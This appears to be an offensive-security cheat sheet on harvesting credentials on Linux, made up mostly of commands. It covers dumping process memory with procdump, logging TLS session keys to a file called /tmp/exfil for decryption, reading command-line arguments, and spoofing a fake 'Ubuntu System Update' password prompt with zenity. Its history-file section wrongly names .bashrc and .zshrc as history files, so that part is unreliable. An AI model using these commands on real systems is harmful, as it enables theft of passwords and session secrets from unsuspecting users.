 # Linux
---
# Navigation
1. **[[#Procdump]]**
2. **[[#Decrypting TLS traffic using TLS key logging Not working on latest firefox and chrome]]**
3. **[[#Peeking at shell command-line history files]]**
4. **[[#Command line arguments]]**
5. **[[#Spoofing a credential prompt via zenity on Linux]]**
---
#  Procdump
```bash
# Download procdump
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update -y
sudo apt-get install procdump

# Dump a process
procdump -p <PID>
```
> **Important Note:**
> Dumping a root process requires a root privilege.

---

#  Decrypting TLS traffic using TLS key logging (Not working on latest firefox and chrome)
In order to decrypt TLS traffic, TLS key logging can be leveraged, which is a feature that will write TLS sessions keys to a user-defined location. The location can be specified via the **SSLKEYLOGFILE** environment.
```bash
export SSLKEYLOGFILE=/tmp/exfil
```
- **Now lets capture network traffic**
```bash
tcpdump -s 0 -i <interface> -w mycap.pcap
```
- **Finally analyze with wireshark**

---

# Peeking at shell command-line history files
- History file location
```bash
/home/<USER>/.bashrc
# Vary depending on the shell type
# Ex: .zshrc
```
---
# Command line arguments
```bash
# "w" will expand the args
ps auxwww
```
---

# Spoofing a credential prompt via zenity on Linux
```bash
PWD=$(zenity --password --text "Ubuntu Update needs your password: " --title "Ubuntu System Update") 2>/dev/null 
```